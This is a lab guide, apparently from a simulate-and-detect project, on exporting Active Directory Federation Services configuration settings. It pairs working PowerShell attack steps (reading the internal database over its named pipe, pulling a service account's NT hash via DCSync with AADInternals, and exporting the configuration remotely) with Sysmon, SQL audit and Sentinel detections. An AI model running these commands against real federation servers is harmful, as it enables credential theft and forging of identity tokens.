



# Export Active Directory Federation Services (AD FS) Configuration Settings

The AD FS configuration settings contains properties of the Federation Service and can be stored in either a Microsoft SQL server database or a `Windows Internal Database (WID)`. You can choose either one, but not both. The `SimuLand` project uses a `WID` as the AD FS configuration database.

## Simulate & Detect

**[Local Variations](#local-variations):**

* [Named Pipe Connection and AD FS SQL Statement](#named-pipe-connection-and-ad-fs-sql-statement)
    * [Detect Named Pipe Connection](#detect-named-pipe-connection)
    * [Detect AD FS SQL Statement to Export Service Settings](#detect-ad-fs-sql-statement-to-export-service-settings)

**[Remote Variations](#remote-variations):**

* [AD FS Synchronization](#ad-fs-synchronization)
    * [Detect AD FS Remote Synchronization Network Connection](#detect-ad-fs-remote-synchronization-network-connection)
    * [Active Directory Replication Services](#detect-active-directory-replication-services)

## Local Variations

## Named Pipe Connection and AD FS SQL Statement

### Preconditions
* Endpoint: AD FS Server (ADFS01)
    * Authorization:
        * AD FS Service Account
        * Local Administrator
    * Services Running:
        * Active Directory Federation Services (ADFSSRV)

### Get Database Connection String via WMI Class

Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific `named pipe`. The named pipe information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI `ADFS namespace`.

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```


### Connect to the database and run a SQL statement to read configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```


## Detect Named Pipe Connection

The connection to the AD FS database occurs via the `\\.\pipe\microsoft##wid\tsql\query` named pipe, and we could monitor for the connection to it with `Sysmon Event ID 18 (Pipe Connected)`.


### Azure Sentinel Detection Rules

* [AD FS Database Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSDBNamedPipeConnection.yaml)

## Detect AD FS SQL Statement to Export Service Settings

If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to [create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15). We can use the [Microsot SQL Server PowerShell module](https://docs.microsoft.com/en-us/powershell/module/sqlserver/?view=sqlserver-ps) to connect to the database and create audit rules.

### Create SQL Audit Rules

1.  On the AD FS server (ADFS01), open PowerShell as Administrator.
2.  Install the SqlServer PowerShell Module.

```PowerShell
Install-Module -Name SqlServer
Import-module SqlServer
```

3.  Create SQL Audit Rules.

```PowerShell
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
```

4.  Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:
* [Get Database Connection String via WMI Class](#get-database-connection-string-via-wmi-class)
* [Connect to database and run SQL statement to read configuration](#connect-to-database-and-run-sql-statement-to-read-configuration)



### Azure Sentinel Hunting Queries

* [AD FS Database Local SQL Statements Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/SecurityEvent/ADFSDBLocalSqlStatements.yaml)

## Remote Variations

## AD FS Synchronization

### Preconditions
* Endpoint: Workstation (WORKSTATION6)
    * Authorization: Domain Administrator
    * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
* Endpoint: AD FS Server (ADFS01)
    * Authorization: AD FS Service Account
    * Services Running: Active Directory Federation Services (ADFSSRV)
    * Network Ports Open: 80

Based on [recent research](https://o365blog.com/post/adfs/) by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD), a threat actor could use [AD FS synchronization (Replication services)](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database#how-the-adfs-configuration-database-is-synchronized) and pretend to be a secondary federation server to retrieve the AD FS configuration settings remotely from the primary federation server. 

Legitimate secondary federation servers store a `read-only` copy of the AD FS configuration database and connect to and synchronize the data with the primary federation server in the AD FS farm by polling it at regular intervals to check whether data has changed. A threat actor could use `SOAP messages` (XML documents) to request/sync AD FS configuration settings over a Windows Communication Foundation (WFC) service named `Policy Store transfer Service` on the federation primary server. This service can be accessed via the following URL over HTTP: 
 
```
http://<AD FS Server Name>:80/adfs/services/policystoretransfer
```

For this remote variation, we can use use [AADInternals](https://github.com/Gerenios/AADInternals) with the following information:
* IP Address or FQDN of the AD FS server (ADFS01)
* NTHash of the AD FS service account
* SID of the AD FS service account 

### Log onto a domain joined workstation

1.  Connect to one of the domain joined workstations in the network (WORKSTATION6) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as a [domain admin account](https://github.com/Azure/SimuLand/tree/main/2_deploy/aadHybridIdentityADFS#domain-users-information) (e.g. pgustavo).

### Get Object GUID and SID of the AD FS Service Account

2.  Open PowerShell as Administrator
3.  Use the [Active Directory Service Interfaces (ADSI)](https://docs.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) to search for the AD FS service account object in the domain controller. Make sure you use the name of the `AD FS service account` you created for the lab environment (e.g. adfsadmin).

```PowerShell
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne() 
$Object = New-Object PSObject -Property @{ 
    Samaccountname = ($AdfsAdmin.Properties).samaccountname 
    ObjectGuid  = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid 
    ObjectSid   = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value 
}
$Object | Format-List
```


### Install AADInternals

4.  On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals 
```

### Get NTHash of AD FS Service Account via Directory Replication Services (DSR)

5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. Make sure you set the right name for the domain controller in your environment (`$Server`).

```PowerShell
$Server = 'DC01.simulandlabs.com'
$creds = Get-Credential

$NTHash = Get-AADIntADUserNTHash –ObjectGuid $Object.ObjectGuid –Credentials $creds –Server $Server -AsHex
$NTHash
```



### Get AD FS Configuration Settings Remotely

6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. Make sure you set the right name for the AD FS server in your environment (`$ADFSServer`).

```PowerShell
$ADFSServer = "ADFS01.simulandlabs.com" 
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $Object.ObjectSid -Server $ADFSServer
$settings 
```



## Detect AD FS Remote Synchronization Network Connection

The replication channel used to connect to the AD FS server is over `port 80`. Therefore, we can monitor for incoming network traffic to the AD FS server over HTTP with `Sysmon event id 3 (NetworkConnect)`. For an environment with only one server in the AD FS farm, it is rare to see incoming connections over standard HTTP port from workstations in the network.


Another behavior that we could monitor is the `authorization check` enforced by the AD FS replication service on the main federation server. We can use security events `412` and `501` from the `AD FS auditing` event provider to capture this behavior. These two events can be joined on the `Instance ID` value for additional context and to filter out other authentication events.


### Azure Sentinel Detection Rules

* [AD FS Remote HTTP Network Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteHTTPNetworkConnection.yaml)
* [AD FS Remote Auth Sync Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteAuthSyncConnection.yaml)

## Detect Active Directory Replication Services

Even though the use of directory replication services (DRS) is not part of the core behavior to extract the AD FS configuration settings remotely, it is an additional step taken by tools such as [AADInternals](https://github.com/Gerenios/AADInternals) to get the NTHash of the AD FS user account to access the AD FS database remotely.

### Microsoft Defender for Identity Alerts

**Suspected DCSync attack (replication of directory services)**

The Microsoft Defender for Identity (MDI) sensor, installed on the domain controller, triggers an alert when this occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. 

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 


### Microsoft Cloud Application Security Alerts

**Suspected DCSync attack (replication of directory services)**

You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.

1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.


## Output

Whether you export the AD FS configuration settings locally or remotey, you can use the variable `$settings` for the following steps:
* [Extract AD FS Token Signing Certificate](extractADFSTokenSigningCertificate.md)
* [Get the Path of the AD FS DKM Container](getADFSDKMContainerADPath.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)